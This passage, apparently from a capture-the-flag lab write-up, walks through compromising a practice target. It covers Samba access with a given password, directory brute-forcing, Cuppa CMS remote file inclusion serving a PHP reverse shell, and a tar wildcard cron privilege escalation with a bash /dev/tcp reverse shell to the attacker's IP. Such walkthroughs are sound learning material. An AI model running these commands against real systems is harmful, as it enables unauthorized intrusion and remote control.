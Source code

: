 Samba (you will get after logging in to squirrelmail):
```
milesdyson:)s{A&2Z=F^n_E.B`
```

From Samba get `important.txt` which reveals the hidden directory that you can directory bruteforce: 
```
smbclient --user=milesdyson //target/milesdyson

ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://target/45kra24zxs28v3yd/FUZZ
```

Result:
```
.htaccess               [Status: 403, Size: 271, Words: 20, Lines: 10]
.hta                    [Status: 403, Size: 271, Words: 20, Lines: 10]
administrator           [Status: 301, Size: 325, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 271, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 418, Words: 45, Lines: 16]
```

Goto `/administrator`, you will find Cuppa CMS. This has know local/remote file inclusion vulnerability ([exploit-db](https://www.exploit-db.com/exploits/25971)).

##### Reverse shell
Download pentestmonkey's php reverse shell:
```
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```

edit it and start a local PHP server to serve the file for the remote file inclusion:

```
sudo python3 -m http-server 80
curl http://target/45kra24zxs28v3yd/administrator//alerts/alertConfigField.php?urlConfig=http://10.11.2.58/shell.php
```

##### Priv esc
In `/home/milesdyson` you find a folder `backups` that contains a `backup.sh` run by a cronjob (check `cat /etc/crontab`).

You can abuse the wildcard on tar command by using this [exploit](https://github.com/mikaelkall/HackingAllTheThings/tree/master/docs/privesc/linux/tar_commands_execution)

```
echo "#!/bin/bash\nbash -i >& /dev/tcp/10.11.2.58/4444 0>&1" > shell.sh
chmod +x shell.sh
touch ./'--checkpoint-action=exec=sh shell.sh'
touch ./'--checkpoint=1'
```

### Day 7 - Leaving our comfort zone

#### Brainstorm
